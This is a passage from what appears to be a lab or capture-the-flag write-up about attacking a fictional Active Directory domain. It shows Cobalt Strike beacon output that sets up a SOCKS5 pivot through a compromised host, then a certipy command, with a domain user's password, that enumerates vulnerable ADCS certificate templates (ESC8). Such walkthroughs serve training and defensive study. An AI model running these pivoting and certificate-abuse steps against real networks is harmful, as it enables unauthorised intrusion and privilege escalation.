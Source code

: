 After obtaining a pivot point at `TABULARIUM`, we can use tunnel our traffic through the beacon channel with `socks5` to hit `SCRIPTORIUM` and `PORTICUS`. This is done by setting up a `socks5` proxy on the Cobalt Strike beacon:

```
[05/26 01:23:39] beacon> socks 1081 socks5
[05/26 01:23:39] [+] started SOCKS5 server on: 1081
[05/26 01:23:39] [+] host called home, sent: 16 bytes
```

We can verify that we can now access `SCRIPTORIUM`.

![](./assets/img/sincon/102415ac014b7147d346639887433e6d.png)

## Enumerating ESC8

Before this point, there have been no (intended) attack paths that involve Active Directory Certificate Services (ADCS). However, we can see that ADCS is installed with the `DC-JESS-CA` Common Name (CN) and the `PALACE-DC.jess.kingdom` DC is the issuing CA.

![](./assets/img/sincon/74d1631b646ad85df9c4bd8a52df1e79.png)

Using any domain user, we can enumerate for enabled Certificate Templates and generic vulnerabilities (`ESC`) using [certipy](https://github.com/ly4k/Certipy):

```
certipy find -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' -target 'PALACE-DC.jess.kingdom' -stdout -vulnerable
```
